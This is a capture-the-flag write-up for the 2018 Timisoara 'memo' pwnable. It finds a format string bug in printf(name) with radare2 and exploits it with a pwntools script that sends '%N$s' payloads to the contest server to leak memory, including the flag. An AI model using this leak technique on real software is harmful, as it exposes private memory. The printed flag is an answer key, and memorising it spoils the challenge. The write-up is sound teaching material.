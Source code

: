 # [Timisoara CTF Quals 2018] memo (Pwnable-70pts)

## Discovery time !

In this task we were given a binary and `host:port` of the server.

when we connect to the server the binary ask us	for our name and display three numbers on the screen for one second. For each number, it asks us what number was on the screen. If we	have entered the three good numbers, it displays "You have a very good memory `the name you entered`" followed by	"Bye!".

    $ nc 89.38.210.128 31339
    Your name? > user1
    Let's play
    What number was on the screen? 42
    Good memory!
    What number was on the screen? 77
    Good memory!
    What number was on the screen? 111
    Good memory!
    You have a very good memory user1
    Bye!

After trying several times we realize that the binary always display the same numbers.

## Reverse time !

Now that we have discovered the binary it's now time to reverse it!
So we have disassembled the binary with radare2 and something quickly attracted our attention:
    
    $ r2 ./memo
    [0x00400a00]> pd 200 @main
     ;-- main:
     0x00400b00      55             push rbp
     0x00400b01      4889e5         mov rbp, rsp
	 ...
     0x00400dcf      48bf82114000.  movabs rdi, str.You_have_a_very_good_memory ; 0x401182 ; "You have a very good memory "
     0x00400dd9      b000           mov al, 0
     0x00400ddb      e840fbffff     call sym.imp.printf
     0x00400de0      488d7db0       lea rdi, qword [rbp - 0x50]
     0x00400de4      89854cffffff   mov dword [rbp - 0xb4], eax
     0x00400dea      b000           mov al, 0
     0x00400dec      e82ffbffff     call sym.imp.printf
     0x00400df1      48bf9f114000.  movabs rdi, str._nBye_      ; 0x40119f ; "\nBye!"
     0x00400dfb      898548ffffff   mov dword [rbp - 0xb8], eax
     0x00400e01      e8eafaffff     call sym.imp.puts
     ...

In the above extract we can see that the binary is doing something like this:

    printf("You have a very good memory ");
    printf(some_variable);
    puts("\nBye!");
 
So we can suppose that there is a format string vulnerability here.

We test with a format identifiers in our name to check that:

    $ nc 89.38.210.128 31339
    Your name? > %s
    Let's play
    ...
    You have a very good memory (null)
    Bye!
And we see that `%s` is interpreted by printf.
We definitely have a format string vulnerability here !
 
## Pwn time !

And finally, now that we found a vulnerability let's exploit it !

We found a **format string vulnerability** that means we can read all the program memory and even write in it !

First, we code a little python script to read the memory:

```python
    from pwn import *
    import sys

    i = 0
    while True:
        i += 1
        try:
            r = remote('89.38.210.128', 31339, level='error')
            r.recvuntil("? > ")
            r.sendline("%" + str(i) + "$s")
            r.recvline()
            r.sendline("42")
            r.recvline()
            r.sendline("77")
            r.recvline()
            r.sendline("111")
            r.recvline()
            sys.stdout.write(r.recvline())
            r.close()
        except EOFError, exception:
                pass
```
We run it:

    $ python pwner.py
    You have a very good memory You have a very good memory n? 
    You have a very good memory 
    You have a very good memory H=���s1�H\x83�\xfe�
    ...
    You have a very good memory 1�I��^H\x89�H���PTI���@
    You have a very good memory timctf{t0_4rr1ve_4t_th3_s1mple_is_d1ff1cult}
    You have a very good memory (null)

**Et voilà !**
